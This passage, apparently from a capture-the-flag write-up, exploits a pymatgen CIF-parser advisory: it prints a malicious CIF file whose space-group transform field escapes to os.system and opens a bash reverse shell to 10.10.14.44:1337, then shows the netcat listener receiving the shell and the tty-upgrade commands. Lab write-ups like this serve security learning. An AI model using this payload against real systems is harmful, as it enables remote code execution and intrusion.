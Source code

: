Quick google search for "CIF" led to ["Arbitrary code execution"](https://github.com/materialsproject/pymatgen/security/advisories/GHSA-vgv8-5cpj-qj2f) I grabbed the PoC from the GitHub page and modified the `example.cif` file with reverse shell like so:

```bash
data_Example
_cell_length_a    10.00000
_cell_length_b    10.00000
_cell_length_c    10.00000
_cell_angle_alpha 90.00000
_cell_angle_beta  90.00000
_cell_angle_gamma 90.00000
_symmetry_space_group_name_H-M 'P 1'
loop_
 _atom_site_label
 _atom_site_fract_x
 _atom_site_fract_y
 _atom_site_fract_z
 _atom_site_occupancy
 H 0.00000 0.00000 0.00000 1
 O 0.50000 0.50000 0.50000 1


_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("/bin/bash -c \'sh -i >& /dev/tcp/10.10.14.44/1337 0>&1\'");0,0,0'


_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "
```

I set up a `netcat` listener and uploaded the modified CIF file and got the shell as `app` user!

```bash
$ nc -lvnp 1337
listening on [any] 1337 ...
connect to [10.10.14.44] from (UNKNOWN) [10.10.11.38] 56230
sh: 0: can't access tty; job control turned off
$ whoami
app
```

## Initial Access

I used this little Python trick to get a more interactive shell:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
CTRL+Z
stty raw -echo; fg
export TERM=xterm
```

